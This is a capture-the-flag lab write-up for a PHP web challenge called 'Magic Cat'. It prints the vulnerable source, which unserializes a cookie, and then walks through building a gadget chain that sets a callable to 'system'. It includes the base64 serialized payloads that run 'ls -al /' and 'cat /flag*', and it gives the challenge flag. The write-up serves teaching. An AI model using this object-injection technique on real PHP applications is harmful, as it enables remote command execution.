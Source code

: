 ```yaml
---
title: Simple Web 0x18(Lab - Magic Cat)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web 0x18(Lab - Magic Cat)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8602/

## Background
None...

## Source code
:::spoiler code
```php=<?php
isset($_GET['source']) && die(!show_source(__FILE__));

class Magic
{
    function cast($spell)
    {
        echo "<script>alert('MAGIC, $spell!');</script>";
    }
}

// Useless class?
class Caster
{
    public $cast_func = 'intval';
    function cast($val)
    {
        return ($this->cast_func)($val);
    }
}


class Cat
{
    public $magic;
    public $spell;
    function __construct($spell)
    {
        $this->magic = new Magic();
        $this->spell = $spell;
    }
    function __wakeup()
    {
        echo "Cat Wakeup!\n";
        $this->magic->cast($this->spell);
    }
}

if (isset($_GET['spell'])) {
    $cat = new Cat($_GET['spell']);
} else if (isset($_COOKIE['cat'])) {
    echo "Unserialize...\n";
    $cat = unserialize(base64_decode($_COOKIE['cat']));
} else {
    $cat = new Cat("meow-meow-magic");
}
?>
<pre>
This is your 🐱:
<?php var_dump($cat) ?>
</pre>

<p>Usage:</p>
<p>/?source</p>
<p>/?spell=the-spell-of-your-cat</p>

```
:::
### Description & Analyze

## Exploit - unserialize
1. Test payload in local side
    ```bash!
    $ ./psysh
    > class Caster
    . {
    .     public $cast_func = 'intval';
    .     function cast($val)
    .     {
    .         return ($this->cast_func)($val);
    .     }
    . }
    > $test = new Caster
    = Caster {#2772
        +cast_func: "intval",
      }

    > $test->cast_func = 'system'
    = "system"
    > $test->cast('pwd')
    = "/home/sbk6401"
    ```
2. Construct serialized session
    ```bash!
    > class Cat
    . {
    .     public $magic;
    .     public $spell;
    .     function __construct($spell)
    .     {
    .         $this->spell = $spell;
    .         $this->magic = new Caster();
    .     }
    .     function __wakeup()
    .     {
    .         echo "Cat Wakeup!\n";
    .         $this->magic->cast($this->spell);
    .     }
    . }
    > $cat = new Cat("ls -al /")
    = Cat {#2771
        +magic: Caster {#2763
          +cast_func: "intval",
        },
        +spell: "ls -al /",
      }
    > $cat->magic->cast_func = "system"
    = "system"
    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjI6e3M6NToibWFnaWMiO086NjoiQ2FzdGVyIjoxOntzOjk6ImNhc3RfZnVuYyI7czo2OiJzeXN0ZW0iO31zOjU6InNwZWxsIjtzOjg6ImxzIC1hbCAvIjt9"
    ```
    ![](https://i.imgur.com/x5tCrhb.png)

3. Get flag
    ```bash!
    > $cat->spell = "cat /flag*"
    = "cat /flag*"

    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjI6e3M6NToibWFnaWMiO086NjoiQ2FzdGVyIjoxOntzOjk6ImNhc3RfZnVuYyI7czo2OiJzeXN0ZW0iO31zOjU6InNwZWxsIjtzOjEwOiJjYXQgL2ZsYWcqIjt9"
    ```
    ![](https://i.imgur.com/c5Kq7c4.png)

Flag: `FLAG{magic_cat_pwnpwn}`
## Reference
[PHP物件導向的第一課：class ](https://ithelp.ithome.com.tw/articles/10114633)
[【第十九天 - PHP反序列化(1)】](https://ithelp.ithome.com.tw/articles/10277044)